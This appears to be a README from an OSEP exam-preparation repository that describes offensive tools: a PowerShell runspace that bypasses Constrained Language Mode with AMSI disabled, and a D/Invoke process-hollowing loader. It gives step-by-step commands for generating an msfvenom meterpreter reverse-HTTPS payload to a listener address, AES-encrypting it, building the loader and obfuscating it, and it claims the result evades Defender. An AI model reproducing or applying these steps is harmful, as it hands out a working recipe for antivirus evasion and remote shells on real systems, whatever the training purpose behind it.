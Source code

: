 ## InteractiveRunspace.cs

This is used to bypass CLM when you already have access to the system (like a reverse shell or RDP).  It provides a PS shell with AMSI disabled in "FullLanguage" mode that you can interactively execute commands in.


![InteractiveRunSpace Shell](https://github.com/superhac/OSEP/blob/main/images/interactiverunspaceshell.PNG)

## Powershell-Filetransfers-methods.md

Contains a list of PowerShell file transfer methods highlighting if they are "proxy aware" and if they work in when your in "ContrainedLanguageMode".

## dinvoke-phollow-aes.cs

Uses D/Invoke to hollow a process of your choosing. The default is "svchost".  This is based on the work of [FatCyclone D/Invoke in C#](https://github.com/FatCyclone/D-Pwn) with the AV bypasses stripped and I added AES128 ECB encryption.

*Note that msfvenon encoders don't work for this use-case. Do not encode your payload*

1. Create a msfvenom payload
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 EXITFUNC=thread -f raw -o ~/OSEP/shell.raw
```

2. Now AES 128 ECB encrypt your payload: (Note key is 16 chars.  No less or No more.)

```
python aes-encode.py --key 777456789abcdety --format csharp --file shell.raw
```

3. Take the output and put it into the VS project.  Also set your key.  Build it.
4. Then obfuscate with [ConfuserEx](https://github.com/mkaring/ConfuserEx).
5. PWN2OWN

*As of 11/30/2021 this passes Defender*

## aes-encrypt.py

Use this to encrypt you payloads with AES 128 ECB.  

```
# Usage:

# msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 EXITFUNC=thread -f raw -o ~/OSEP/shell.raw

# python aes-encode.py --key 777456789abcdety --format csharp --file shell.raw

#

# ***** Note don't use msfvenom encoders with d/invoke process hollowing. It crashes process right on startup!!! ***

# Key size is 16 chars! No More or less
```
